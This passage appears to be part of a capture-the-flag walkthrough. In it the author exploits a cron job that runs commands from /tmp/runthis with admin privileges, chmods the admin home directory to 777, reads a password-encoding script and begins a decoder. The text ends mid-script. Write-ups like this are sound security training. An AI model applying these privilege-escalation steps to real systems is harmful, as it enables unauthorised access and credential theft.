 ```bash
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```
So if I understand this right, I can run binaries that are in the admin's folder by specifying the full path to them through a file called runthis in tmp. The first thing I want to do is see what's actually in the admin folder and access it all. I can to this by chmodding the directory to completely open permissions.
```bash
bash-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
bash-4.1$ cat /tmp/runthis
cat /tmp/runthis
/home/admin/chmod 777 /home/admin
```
After about a minute I see if I can view the admin's directory.
```bash
bash-4.1$ ls /home/admin
ls /home/admin
cat    cronjob.py       cryptpass.py  echo   grep  whoisyourgodnow.txt
chmod  cryptedpass.txt  df            egrep  ps
```
Sure enough I can now see all the files. 

### 4. Escalate privileges
Lets check out the text files.
```bash
cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG

cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq

cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```
A string is getting read in from the command line, base64 encoded, reversed, and then rot13'd. No doubt this explains what has happened to the above files. A quick script can be written to reverse this (see decode.py):
```python
import sys, codecs, base64

def decodeString(encoded):
    base64String = codecs.decode(encoded, 'rot-13')[::-1]
```
